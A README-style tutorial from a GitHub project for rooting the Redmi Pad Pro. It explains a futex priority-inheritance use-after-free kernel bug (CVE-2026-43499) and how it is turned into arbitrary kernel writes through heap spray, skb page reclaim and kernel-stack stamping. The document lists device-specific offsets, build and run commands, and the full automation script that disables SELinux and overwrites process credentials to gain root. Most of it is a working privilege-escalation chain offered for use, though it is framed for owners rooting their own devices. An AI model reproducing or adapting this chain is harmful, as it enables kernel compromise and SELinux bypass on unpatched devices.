


# Complete kernel root tutorial for the Redmi Pad Pro

> Understand and reproduce the full root flow for dizi (Redmi Pad Pro / POCO Pad,
> kernel `5.10.236-android12-9-00003-gfb24cf99ad97-ab14313284`) from scratch.
> No prior kernel-exploitation background is required; just read the chapters in order.

## How it works (overview)

```mermaid
flowchart TD
    subgraph PREP["Preparation (host side)"]
        A["build.sh compiles the exploit<br/>(NDK cross-compile to arm64)"] --> B["adb pushes the ghostlock binary<br/>+ profile.bin to the tablet"]
    end

    subgraph W1["W1: disable SELinux"]
        C["fork many children to spray mm_struct<br/>and fill the slab holding the target page"] --> D["free the target page, then reclaim it precisely<br/>with unix socket sendmsg skb data<br/>(payload page = forged lock/task)"]
        D --> E["pselect6 on the waiter thread's kernel stack<br/>overwrites the freed rt_mutex_waiter"]
        E --> F["sched_setattr triggers the PI chain adjustment<br/>rb_erase relink = controlled kernel write"]
        F --> G["selinux_enforcing := 0<br/>(SELinux goes Permissive)"]
    end

    subgraph W2["W2: overwrite credentials (new process, clean heap)"]
        H["fork the victim child<br/>perf_event leaks its task_struct address"] --> I["same page reclaim + stack overwrite + PI chain"]
        I --> J["child-&gt;cred := init_cred<br/>(uid/gid/capabilities = 0/full)"]
        J --> K["fast repair: fix the collateral damage<br/>at init_cred+8 (required on 5.x)"]
        K --> L["the child answers over the pipe with uid=0<br/>= root verified"]
    end

    subgraph LAND["Landing root"]
        M["the root script runs as uid=0<br/>and repairs the SELinux policy flag"] --> N["extract ksud from the<br/>KernelSU manager APK"]
        N --> O["ksud late-load<br/>the kernelsu.ko kernel module"]
        O --> P["KernelSU active (jailbreak mode)<br/>SELinux back to Enforcing"]
    end

    B --> C
    G -->|"process exit releases the scene<br/>(two-stage, avoids a dirty heap)"| H
    L --> M
    P --> Q["/data/adb keeps modules and grants<br/>rerun reroot.sh after a reboot to restore"]

    style W1 fill:#fff4e0
    style W2 fill:#e0f0ff
    style LAND fill:#e8ffe0
```



---

## Contents

- [Chapter 1: Quick background](#chapter-1-quick-background)
- [Chapter 2: The vulnerability CVE-2026-43499](#chapter-2-the-vulnerability-cve-2026-43499)
- [Chapter 3: From vulnerability to arbitrary kernel write](#chapter-3-from-vulnerability-to-arbitrary-kernel-write)
- [Chapter 4: The five key parameters of the dizi adaptation](#chapter-4-the-five-key-parameters-of-the-dizi-adaptation)
- [Chapter 5: Full reproduction walkthrough](#chapter-5-full-reproduction-walkthrough)
- [Chapter 6: The root script, line by line](#chapter-6-the-root-script-line-by-line)
- [Chapter 7: Troubleshooting and FAQ](#chapter-7-troubleshooting-and-faq)
- [Appendix](#appendix)

---

## Chapter 1: Quick background

### 1.1 What kernel exploitation actually does

Applications run in "user mode" with limited privileges; the kernel runs in "kernel
mode" and controls everything. **Privilege escalation (root) = making the kernel accept
that our process is root (uid=0)**.

Every process has a `task_struct` (its task record) in the kernel, and its `cred` pointer
points at the credentials structure (uid, gid, capabilities, ...). `getuid()` simply reads
`current->cred->uid`. **If that pointer can be changed to point at `init_cred` (the
kernel's initial credentials: uid=0, full capabilities), the process instantly becomes
root** — that is W2 in this project.

SELinux, however, blocks sensitive operations after escalation, so SELinux must first be
switched to Permissive (log only, no blocking) — that is W1: overwrite the kernel
variable `selinux_enforcing` with 0.

### 1.2 futex and PI (priority inheritance)

A futex is Linux's thread-lock primitive. A PI futex (`FUTEX_LOCK_PI`) solves priority
inversion: when a low-priority thread holds a lock and a high-priority thread waits for
it, the kernel **temporarily raises** the holder's priority.

The kernel object behind this is `rt_mutex` (a real-time mutex). A thread waiting for the
lock attaches an `rt_mutex_waiter` structure to the lock's red-black tree, ordered by
priority. When priorities are adjusted, the kernel propagates the change along the "wait
chain" (`rt_mutex_adjust_prio_chain`), which inserts into and removes from the red-black
tree (`rb_insert_color` / `rb_erase`).

### 1.3 The kernel heap and page reclaim

Kernel objects (such as `task_struct` and `mm_struct`) are allocated from the slab/slub
allocator. A physical page (4 KB or a larger block) is split into slots of equal size.
When an object is freed, its slot (or the whole page) goes onto a free list.

**Heap spray**: allocate many objects of the same type in a short time so the free slots
end up in the layout we want. **Page reclaim**: immediately after the target object is
freed, "catch" that just-freed physical page with another kernel object carrying our data
(this project uses unix socket send buffers, skb) — when the kernel later reads that page
assuming the original type, it reads our data. This is the core technique of the exploit
and the **only probabilistic step** in this project (the reclaim can land wrong; the hit
rate is roughly 1/3–1/2).

### 1.4 Kernel stack reuse

Every thread has a small kernel stack (16 KB); system calls and interrupts stack frames
on top of each other. While a thread sleeps inside `futex_wait_requeue_pi`, its waiter
structure lives on its kernel stack. The vulnerability turns that waiter into a dangling
pointer (the stack frame it lives in is logically released). If the same thread then makes
a **system call that places user data on the kernel stack** (`pselect6` copies fd_set
bitmaps onto the kernel stack), the new frame lands exactly on top of the old waiter —
**so we can write bytes into the waiter structure**. This is called stack stamping.

---

## Chapter 2: The vulnerability CVE-2026-43499

### 2.1 The bug itself

Introduced in 2011, fixed in 2026 (about 15 years of exposure), affecting every kernel
from `2.6.39` through `7.1-rc1` built with `CONFIG_FUTEX_PI`. Upstream fix commit:
`3bfdc63936dd` ("rtmutex: Use waiter::task instead of current in remove_waiter()").

On the rollback path of `rt_mutex_start_proxy_lock()` (triggered by `futex_requeue()`),
`remove_waiter()` **operates on `current` (the running thread) instead of `waiter->task`
(the thread that owns the waiter)**:

```c
// vulnerable code (5.10 semantics, simplified)
static void remove_waiter(struct rt_mutex_base *lock, struct rt_mutex_waiter *waiter)
{
    raw_spin_lock_irq(&current->pi_lock);      // ← wrong! should be waiter->task->pi_lock
    rt_mutex_dequeue(lock, waiter);            // remove the waiter from the tree
    current->pi_blocked_on = NULL;             // ← wrong! clears the running thread
    raw_spin_unlock_irq(&current->pi_lock);
    ...
}
```

Consequences: the waiter thread's `pi_blocked_on` is **never cleared** (dangling
pointer), and the dequeue happens without holding the correct lock. The waiter thread then
wakes up and returns to user mode; the waiter structure on its kernel stack is logically
released, but the PI chain still holds a reference to it — **a UAF on the stack**.

### 2.2 Trigger sequence



**What makes this bug convenient**: after the EDEADLK rollback there is **no time
pressure** — the waiter thread can stay asleep indefinitely, so we can stamp and trigger
the walk whenever we like. Only two hard parts remain: writing the waiter contents
correctly (stack stamping) and preparing the payload page correctly (heap reclaim).

---

## Chapter 3: From vulnerability to arbitrary kernel write

### 3.1 The full chain



A successful write requires three things at once:

1. **Payload page reclaimed**: the page holding the freed mm_struct is caught exactly by
   our skb data (the in-page offset must line up — on dizi it is a 4 KB header plus an
   order-3 whole-page frag with the data at page offset 0, hence
   `skb_frag_bias = 0x180`);
2. **Stack stamp lands**: the pselect6 fd_set stack frame covers the waiter exactly
   (dizi has no `RANDOMIZE_KSTACK_OFFSET` — that arrived in 5.13 — so the stack geometry
   is deterministic and `waiter_shift = -2` always holds);
3. **The walk completes safely**: the forged fake_lock/fake_task lead
   `rt_mutex_adjust_prio_chain` all the way to erasing our node.

### 3.2 Exact write semantics (5.10 select route)

The forged waiter's red-black-tree node fields are `{pc = value_to_write, right = 0,
left = target_address}` and the node is marked red (no color fix-up). When the kernel
`rb_erase`s that node:

- **Primary write**: `rb_set_parent_color(child=target, parent=pc&~3, color)`
  → `*(target) = pc | color`; the low 2 bits of pc are 0, so the value written is exact;
- **Secondary write**: `__rb_change_child` stores the child address into the parent slot
  → `*(pc+8) = target`.

For W2, pc is the `init_cred` alias address, so the secondary write stores the child's
cred field address at `init_cred+8` (the gid field) — **which is why 5.x needs fast
repair**: as soon as W2's primary write succeeds, another repair write zeroes
`init_cred+8`. That is what `w2_fast_repair` does in this project; it was ported from the
multicast route to the select route (`src/core/route/select_stack_route.cpp`, active only
when `kernel_major==5`).

### 3.3 The three stages W1/W2/W3

| Stage | Target | Value written | Verification |
|---|---|---|---|
| W1 | `selinux_enforcing` | 0 | read `/sys/fs/selinux/enforce` |
| W2 | victim child `task->cred` | `init_cred` alias | ask the child for `getuid()` over the pipe; expect 0 |
| W3 | victim's seccomp | clear TIF_SECCOMP + mode | fork probe (skipped: the shell domain has no seccomp) |

There is also a story behind W3's leaf-direction probe: the erase branch for leaf writes
on 5.10 differs from 6.x, and this project fixed the leaf overwrite
(`{fake_parent, 0, 0}`, matching the encoder contract).

### 3.4 Two-stage run (why two processes)

If the same process continues with W2 after W1 succeeds, the kernel heap has already been
churned by thousands of forks and sprays, and W2's reclaim hit rate collapses. The project
therefore added `--stop-after-w1`: after W1 succeeds the process exits cleanly (the heap
state is released with it) and a fresh process runs — W1 is skipped automatically (already
permissive) and W2 proceeds on a clean heap. The SELinux permissive state survives across
processes (until reboot).

### 3.5 A subtle fd-stealing bug (fixed)

The select route stamps waiter data with fd_set bitmaps: each bit corresponds to an fd
number, and the route `dup2`s over the fds whose bits are set. W2's `pi_left =
target_address` (a kernel pointer), whose low byte bits 6/7 are often exactly the victim
pipe's fds 6/7 — **so the route closed its own communication pipe**, the child read EOF
and exited, and verification always failed. Fix: raise the pipe fds above the stamping
window (320) right after creating them (`src/core/session/victim_process.cpp`).

---

## Chapter 4: The five key parameters of the dizi adaptation

Where every value in `profiles/5.10.236-....conf` comes from (all backed by device or
binary evidence):

| Parameter | Value | Origin |
|---|---|---|
| `waiter_shift` | -2 | byte-level frame accounting of both syscall chains: futex chain (0x90+0x70+0x1a0, waiter at sp+0x90) vs pselect chain (0xa0+0x1c0, fd_set at sp+0x50), delta=0 → shift=-2 |
| `mm_struct_sz` | 960 | dizi SLUB uses 64-byte cachelines: DWARF sizeof=952, measured `/proc/slabinfo` objsize=960, 34 objs/slab |
| `skb_frag_bias` | 384 (0x180) | 5.10 unix sendmsg = 4 KB kmalloc header + order-3 whole-page frag, data at page offset 0; stream byte 4096 is the start of the target block |
| `skb_reclaim_sends` | 16 | measured on the device gate: 4 is too few to cover, 128 over-pressures and does worse |
| struct offsets (task_struct/cred etc.) | see the conf | DWARF from the same-build GKI vmlinux, then byte-by-byte cross-checked on boot.img (`init_task.comm="swapper"`, the init_cred caps section, ...) |

There are also `kernel_phys_load = 0xa8000000` (UEFI memory map) and
`kernel_phys_offset = null` (defaults to 0x80000000, matching the start of System RAM
observed in `/proc/iomem` after rooting).

> The same derivation, run for the other supported build
> `5.10.209-android12-9-00019-g4ea09a298bb4-ab12292661` (HyperOS 1.0.19.0.UNSCNXM), is in
> `profiles/5.10.209-....conf`. Frames and offsets are **not** shared between builds:
> `tools/reroot.sh` picks the profile from the device's `uname -r` and refuses to run when
> that build has no profile.

---

## Chapter 5: Full reproduction walkthrough

### 5.1 Environment setup (host side)

macOS:

```bash
brew install --cask android-commandlinetools   # includes adb
brew install android-platform-tools            # if the step above did not include it
# NDK: install through Android Studio's SDK Manager, or from the command line:
sdkmanager "ndk;29.0.14206865"                  # any reasonably recent version works
```

Linux: install `android-tools` (adb) and download + unpack the NDK from
https://developer.android.com/ndk/downloads.

Verify:

```bash
adb version            # any output is fine
echo $ANDROID_NDK_HOME # or let build.sh auto-detect it
```

### 5.2 Device setup (tablet side)

1. Settings → About tablet → tap "OS version" repeatedly to enable developer options;
2. Developer options → enable **USB debugging**;
3. Confirm the kernel version: About tablet → Kernel version must be
   `5.10.236-android12-9-00003-gfb24cf99ad97-ab14313284` (a different version cannot use
   this profile);
4. Install the KernelSU manager APK (https://github.com/tiann/KernelSU/releases).
   **This step is mandatory** — the root script extracts ksud from that package to load
   the kernel module;
5. Connect the tablet to the computer over USB and accept the debugging authorization.

### 5.3 Build

```bash
git clone https://github.com/d16ug-a1l/REDMI_Root
cd REDMI_Root
./build.sh
```

On success you will see `[+] build succeeded: build/native/ghostlock`.

### 5.4 Run the root

```bash
# with several devices attached, name the tablet explicitly:
SERIAL=<adb serial> tools/reroot.sh

# optional read-only preflight: confirms device, kernel, profile and binary
tools/reroot.sh --check
```

`--check` prints the model, Android version, kernel release, SELinux state, the selected
profile and the SHA-256 of both the profile and the exploit binary, then exits without
pushing or running anything. It is the right way to confirm a match before a live run.

From here everything is automatic. **The tablet may reboot several times — this is
normal** (a missed heap reclaim panics the kernel and reboots; the script waits for the
device to come back and continues). Typical output:

```
== attempt 1: W1 (SELinux) 10:00:01
   W1 missed (the device may have rebooted; waiting for reconnect...)
== attempt 2: W1 (SELinux) 10:02:40
   W1 succeeded (permissive)
== ROOTED + KernelSU active (attempt 2, try 1)
```

You are done when you see `ROOTED`. Measured runtimes range from a few minutes to a bit
over twenty minutes.

### 5.5 Verify

```bash
adb shell "su -c id"
# uid=0(root) gid=0(root) groups=0(root) context=u:r:ksu:s0
```

Open the KernelSU manager on the tablet; it should show "working [jailbreak mode]".

### 5.6 Every reboot afterwards

Root is jailbreak mode (lost on reboot), but **modules and grants are not lost**. After
each reboot simply run:

```bash
tools/reroot.sh
```

Suggested optional modules: NeoZygisk + Vector (Xposed framework); install their zips
from the module page of the KernelSU manager.

---

## Chapter 6: The root script, line by line

The full `tools/reroot.sh`:

```bash
#!/bin/bash
# dizi one-shot re-root: connect the tablet over USB and run this script.
# It performs W1 (SELinux permissive) -> W2 (cred root) -> KernelSU module reload.
# Previously installed modules and their authorization state are restored automatically.
# The tablet may reboot several times during the run (normal; USB reconnects on its own).
# You are done when you see ROOTED.
#
# Usage:
#   tools/reroot.sh                 # auto-select the only attached device
#   SERIAL=<adb-serial> tools/reroot.sh
#   tools/reroot.sh --check         # read-only preflight, runs nothing on the device
cd "$(dirname "$0")/.." || exit 1

BIN=build/native/ghostlock
# Select the profile for the device's real kernel build before every push
# (build-exact; never reuse a profile across builds).
# PROFILE=... explicitly overrides the selection, but the file must exist.
PROFILE="${PROFILE:-}"
# Which device to operate on. Refusing to guess when several are attached keeps
# unrelated devices out of reach.
SERIAL="${SERIAL:-${ANDROID_SERIAL:-}}"
CHECK=0
[ "$1" = "--check" ] && CHECK=1

adb_target() {
    if [ -n "$SERIAL" ]; then
        adb -s "$SERIAL" "$@"
    else
        adb "$@"
    fi
}

# 0 = target selected, 1 = no device online yet, 2 = ambiguous (several devices)
select_device() {
    if [ -n "$SERIAL" ]; then
        return 0
    fi
    local list n
    list=$(adb devices 2>/dev/null | awk 'NR>1 && $2=="device"{print $1}')
    n=$(printf '%s\n' "$list" | grep -c . || true)
    [ "$n" -eq 0 ] && return 1
    if [ "$n" -gt 1 ]; then
        echo "!! multiple devices attached:"
        printf '   %s\n' $list
        echo "   set SERIAL=<serial> to pick the tablet (nothing was sent)"
        return 2
    fi
    SERIAL="$list"
    echo "== device: $SERIAL"
    return 0
}

resolve_profile() {
    if [ -n "$PROFILE" ]; then
        [ -f "$PROFILE" ] || { echo "!! PROFILE does not exist: $PROFILE"; return 1; }
        return 0
    fi
    local model uname_r
    model=$(adb_target shell getprop ro.product.device 2>/dev/null | tr -d '\r')
    if [ -n "$model" ] && [ "$model" != "dizi" ] && [ "${ALLOW_ANY_DEVICE:-0}" != "1" ]; then
        echo "!! attached device is '$model', not 'dizi' (set ALLOW_ANY_DEVICE=1 to override)"
        return 1
    fi
    uname_r=$(adb_target shell uname -r 2>/dev/null | tr -d '\r')
    [ -z "$uname_r" ] && { echo "!! failed to read uname -r from the device"; return 1; }
    PROFILE="profiles/${uname_r}.bin"
    [ -f "$PROFILE" ] || {
        echo "!! no profile for this kernel build: $uname_r"
        echo "   expected file: $PROFILE"
        echo "   (refusing to use a profile from another build)"
        return 1
    }
    echo "== profile: $PROFILE"
}

wait_device() {
    while true; do
        select_device
        case $? in
            2) exit 1 ;;
            0)
                if adb_target get-state 2>/dev/null | grep -q device; then
                    if [ "$(adb_target shell getprop sys.boot_completed 2>/dev/null | tr -d '\r')" = "1" ]; then
                        return 0
                    fi
                fi
                ;;
        esac
        sleep 5
    done
}

# A parked rooted child keeps the adb shell's stdout open, so a failed handoff
# can block forever. Bound every exploit invocation and reap leftovers.
adb_shell_timeout() {
    local secs=$1
    shift
    if [ -n "$SERIAL" ]; then
        timeout "$secs" adb -s "$SERIAL" shell "$@"
    else
        timeout "$secs" adb shell "$@"
    fi
}

cleanup_strays() {
    adb_target shell 'pkill -9 -f /data/local/tmp/ghostlock 2>/dev/null; pkill -9 ghostleaf 2>/dev/null; true' >/dev/null 2>&1
}

push_all() {
    resolve_profile || exit 1
    [ -f "$BIN" ] || { echo "!! missing binary: $BIN (build it on the build machine and copy it back)"; exit 1; }
    adb_target push "$BIN" /data/local/tmp/ghostlock >/dev/null 2>&1
    adb_target push "$PROFILE" /data/local/tmp/profile.bin >/dev/null 2>&1
    adb_target shell chmod 755 /data/local/tmp/ghostlock 2>/dev/null
}

# Read-only preflight: proves the device, the profile and the binary line up
# without pushing anything or running the exploit.
if [ "$CHECK" = "1" ]; then
    wait_device
    uname_r=$(adb_target shell uname -r 2>/dev/null | tr -d '\r')
    model=$(adb_target shell getprop ro.product.device 2>/dev/null | tr -d '\r')
    rel=$(adb_target shell getprop ro.build.version.release 2>/dev/null | tr -d '\r')
    patch=$(adb_target shell getprop ro.build.version.security_patch 2>/dev/null | tr -d '\r')
    enf=$(adb_target shell cat /sys/fs/selinux/enforce 2>/dev/null | tr -d '\r')
    echo "== device:  $SERIAL"
    echo "== model:   $model"
    echo "== android: $rel (patch $patch)"
    echo "== kernel:  $uname_r"
    echo "== selinux: enforcing=$enf"
    resolve_profile || exit 1
    [ -f "$BIN" ] || { echo "!! missing binary: $BIN"; exit 1; }
    echo "== binary:  $BIN ($(stat -c %s "$BIN") bytes, sha256 $(sha256sum "$BIN" | cut -d' ' -f1))"
    echo "== profile: $PROFILE ($(stat -c %s "$PROFILE") bytes, sha256 $(sha256sum "$PROFILE" | cut -d' ' -f1))"
    echo "== preflight OK (nothing was pushed, nothing was executed)"
    exit 0
fi

ATTEMPT=0
while true; do
    ATTEMPT=$((ATTEMPT+1))
    wait_device
    cleanup_strays

    # Already rooted: nothing to do
    if adb_target shell "su -c id" 2>/dev/null | grep -q "uid=0"; then
        echo "== KernelSU already active, nothing to do"
        exit 0
    fi

    ENF=$(adb_target shell "cat /sys/fs/selinux/enforce" 2>/dev/null | tr -d '\r')
    if [ "$ENF" != "0" ]; then
        # phase 1: W1 -> permissive
        echo "== attempt $ATTEMPT: W1 (SELinux) $(date '+%H:%M:%S')"
        push_all
        adb_shell_timeout 240 "cd /data/local/tmp && ./ghostlock --load-prebuilt-profile /data/local/tmp/profile.bin --stop-after-w1" > /dev/null 2>&1
        cleanup_strays
        ENF=$(adb_target shell "cat /sys/fs/selinux/enforce" 2>/dev/null | tr -d '\r')
        if [ "$ENF" != "0" ]; then
            echo "   W1 missed (the device may have rebooted; waiting for reconnect...)"
            sleep 3
            continue
        fi
        echo "   W1 succeeded (permissive)"
    fi

    # phase 2: W2 -> root -> KernelSU reload (retry inside the permissive boot)
    for i in $(seq 1 25); do
        wait_device
        ENF=$(adb_target shell "cat /sys/fs/selinux/enforce" 2>/dev/null | tr -d '\r')
        [ "$ENF" != "0" ] && break   # rebooted; back to phase 1
        echo "   W2 try $i/25 $(date '+%H:%M:%S')"
        push_all
        adb_shell_timeout 240 "cd /data/local/tmp && ./ghostlock --load-prebuilt-profile /data/local/tmp/profile.bin" > /dev/null 2>&1
        cleanup_strays
        if adb_target shell "su -c id" 2>/dev/null | grep -q "uid=0"; then
            echo "== ROOTED + KernelSU active (attempt $ATTEMPT, try $i)"
            exit 0
        fi
        sleep 2
    done
done
```

Section by section:

| Part | Purpose |
|---|---|
| `select_device` / `adb_target` | picks the only attached device, or the one named by `SERIAL`/`ANDROID_SERIAL`; every adb call goes through `-s <serial>`, so a second connected device is never touched; aborts when several devices are attached and none was named |
| `resolve_profile` | reads `uname -r` from the device and selects `profiles/<release>.bin`; refuses non-`dizi` models and aborts instead of silently reusing another build's profile |
| `wait_device` | waits until the tablet is online and boot has completed; also clears offline adb endpoints (prevents multi-device ambiguity from wedging the script) |
| `push_all` | pushes the exploit binary and profile to `/data/local/tmp` (every time, so the device always has the current build) |
| `su -c id` pre-check | exits immediately if already rooted (the script is idempotent and safe to rerun) |
| `--check` | read-only preflight: prints model, Android version, kernel, SELinux state, profile path and both SHA-256s, then exits without pushing or executing anything |
| stage 1 | reads `/sys/fs/selinux/enforce`; if non-zero, runs `--stop-after-w1` (do W1 then exit); a miss panics and reboots, and `wait_device` waits for the device to return |
| stage 2 | while permissive, runs the complete exploit up to 25 times: W1 skipped → W2 → root script → ksud loads KernelSU; a silent miss retries at no cost, and only a panic loses permissive state and returns to stage 1 |

---

## Chapter 7: Troubleshooting and FAQ

**Q: It keeps looping on `W1 missed`?**
That is a normal probabilistic event; leave it running (hit rate about 1/3–1/2, the
script retries indefinitely). If nothing succeeds after 30 minutes, press `Ctrl+C`,
confirm the tablet's kernel version matches the profile exactly, and start again.

**Q: `W1 succeeded` and then nothing seems to happen?**
Each attempt now prints a `W2 try n/25` line, and every exploit invocation is bounded to 240 s.
If the KernelSU manager APK is not installed, the handoff cannot load the module (`ksud missing` in
`/data/local/tmp/.ghostlock_ksu.log`) and the exploit leaves a parked victim child behind; the
script reaps it and retries. Install the manager APK from
https://github.com/tiann/KernelSU/releases and rerun.

**Q: adb shows multiple devices or offline?**
The script already clears offline endpoints. If it is still stuck, run `adb devices`
manually and clear leftovers with `adb disconnect <ip:port>`.

**Q: The tablet is slow or an app crashes after rooting?**
Rare. Rebooting returns the tablet to a completely unrooted, clean state (no partition is
ever written).

**Q: How do I remove it completely?**
KernelSU manager → uninstall/remove modules; reboot; optionally delete `/data/adb`.
No partition has been modified and the boot image is untouched.

**Q: Can it be used on other models?**
Not directly — a profile is matched to an exact kernel version. Other models need a new
profile generated with the upstream ghostlock-app extractor and validated on real
hardware (the process is documented in `docs/adaptation-plan.md`, the full record of this
adaptation).

**Q: Does it void the warranty / trigger Knox-style fuses?**
No fuses are blown (no bootloader unlock, no partition flashing). MIUI may, however,
record abnormal reboots in its logs.

---

## Appendix

### Key source index

| File | Contents |
|---|---|
| `src/core/main.cpp` | entry point (`--stop-after-w1`, `--probe-comm-write`, ...) |
| `src/core/session/backend/cve_2026_43499_backend.cpp` | W1/W2/W3 stage machine, fast-repair call sites |
| `src/core/route/select_stack_route.cpp` | select route: fd_set stamping, 5.x fast-repair hook |
| `src/core/race/threads.cpp` | owner/waiter/consumer three-thread race |
| `src/core/support/util.cpp` | mm spray + skb reclaim (`prepare_kernel_page`) |
| `src/core/session/victim_process.cpp` | victim protocol, fd-raising fix |
| `profiles/*.conf` | all geometry/offset parameters with provenance notes |

### References

- Upstream project: https://github.com/YuKongA/ghostlock-app
- Fix commit: `3bfdc63936dd4773109b7b8c280c0f3b5ae7d349`
  (torvalds/linux, "rtmutex: Use waiter::task instead of current in remove_waiter()")
- Device-gate evidence for this model: `docs/device-gate-DIZI-01.md`
- Full adaptation design and decision record: `docs/adaptation-plan.md`

### Legal and compliance

Read [DISCLAIMER.md](../DISCLAIMER.md) in the repository root before using this tool.
Use it only on devices you own and in authorized scenarios.
